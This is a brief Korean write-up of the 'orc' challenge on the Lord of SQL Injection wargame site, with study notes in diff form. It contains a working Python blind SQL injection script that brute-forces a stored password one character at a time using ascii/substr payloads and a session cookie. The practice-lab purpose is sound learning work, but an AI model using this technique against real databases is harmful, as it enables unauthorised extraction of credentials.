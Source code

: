 ```python
import requests as req 

url="https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php"

ck = {"PHPSESSID":"j36kv4qogu660uhlacl2kqg5v5"}

#pw의 길이의 결과가 왜인지 4와 8이 나오는데 더 긴 쪽이라고 가장하고 코드를 짰다.
pw=''
for i in range(1,9):
	for j in range(33,127):
		param = f"' or ascii(substr(pw from {i} for 1))={j}-- "
		with req.get(url, params={"pw":param}, cookies=ck) as res:
			if res.text.count("Hello")==2:
				pw+=chr(j)
				print("pw =", pw)
				break
```
```diff
+ MySQL함수 공부를 하면 더 도움이 될 것 같다.
+ 웹해킹.kr 21번이 이 문제랑 거의 똑같다. 
- ascii로 우회하지 않고 substr함수만 사용하여 그냥 문자와 비교하는 코드도 짜보았는데 어째선지 되지 않았다.
```
굳굳
